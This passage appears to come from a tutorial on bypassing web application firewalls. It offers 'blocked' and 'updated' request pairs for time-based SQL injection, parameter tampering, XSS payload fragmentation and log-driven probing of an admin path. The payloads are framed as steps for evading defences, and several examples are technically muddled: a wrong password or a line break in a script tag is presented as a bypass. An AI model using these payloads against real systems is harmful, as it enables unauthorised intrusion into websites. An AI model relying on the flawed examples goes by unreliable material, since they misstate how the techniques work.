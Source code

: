 **Blocked original request:**
```bash
GET /search?q=' OR 1=1; --
```

**Updated with time-based SQL injection:**
```bash
GET /search?q='; IF (1=1) WAITFOR DELAY '00:00:05'; --
```

## 11. HTTP Parameter Tampering

**How to do it:**  
Modify parameters in HTTP requests, particularly POST requests, to bypass WAF rules focused on GET requests.

**Blocked original request:**
```bash
POST /login HTTP/1.1
username=admin&password=123456
```

**Updated with parameter tampering:**
```bash
POST /login HTTP/1.1
username=admin&password=wrong_password
```

## 12. Payload Fragmentation

**How to do it:**  
Split the payload across multiple requests or packets to avoid detection by the WAF.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with payload fragmentation:**
```bash
<script>aler
t('XSS')</script>
```

## 13. Testing and Logging Analysis

**How to do it:**  
Analyze WAF logs and responses to identify which payloads are being blocked and adjust accordingly.

**Blocked original request:**
```bash
GET /admin HTTP/1.1
```

**Updated based on log analysis:**
```bash
GET /admin.php HTTP/1.1
```
